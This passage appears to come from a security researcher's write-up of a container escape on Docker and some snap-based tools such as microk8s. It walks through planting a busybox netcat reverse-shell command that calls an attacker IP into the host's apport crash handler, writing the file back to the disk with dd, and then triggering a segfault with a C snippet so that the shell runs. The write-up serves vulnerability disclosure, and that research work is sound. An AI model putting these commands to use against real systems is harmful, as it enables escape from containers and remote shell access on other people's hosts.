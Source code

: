 # under the terms of the GNU General Public License as published by the
# Free Software Foundation; either version 2 of the License, or (at your
# option) any later version.  See http://www.gnu.org/copyleft/gpl.html for
# the full text of the license.
import sys, os, os.path, subprocess, time, traceback, pwd, io
import signal, inspect, grp, fcntl, socket, atexit, array, struct
import errno, argparse
import apport, apport.fileutils
#
# functions
--More--
The file looks like a python3 script, so all we need to do is add an os.system() call to run a netcat reverse shell. Since we have no intention of changing the file’s size, we also need to make sure we delete the same number of characters from the file as the number we add into it.

Since our attack machine is listening at IP 13.57.11.205 at port 8081, we add the following line:

os.system(‘/usr/bin/busybox nc 13.57.11.205 8081 -e/bin/bash’)
and save the file.

Next, we should copy our file back to the hard drive. We use ‘dd’ again for that:

root@ba3398f7201b:/tmp# dd of=/dev/sda5 seek=42641032 count=64 if=/tmp/apport
Note that we switched the input file (if) and output file (of) and we now use ‘seek’ instead of ‘skip’ [xx].

So, now we’ve written the apport file back to the host’s filesystem and we are ready for the 4th and final stage of the attack.

Stage 4: Weaponize
In order to weaponize the setup we have created, all we need to do is generate a segmentation fault.

We can do that by compiling and executing the following short c-code [xxi]:

int main( void)
{
     char *aaa = 0;
     *aaa = 0;
     return 1;                // this line should not be reached…
}
See the attached PoC demo below.

Who Else is Affected by this Vulnerability?
After we succeeded weaponizing this vulnerability against the Docker default container, we set out to find which other container/sandbox vendors were also vulnerable. Some digging in the Snap packages website, snapcraft.io, taught us that kubernetes, microk8s and the deprecated AWS IoT Greengrass V1 were also affected by this issue, and vulnerable to this type of attack.
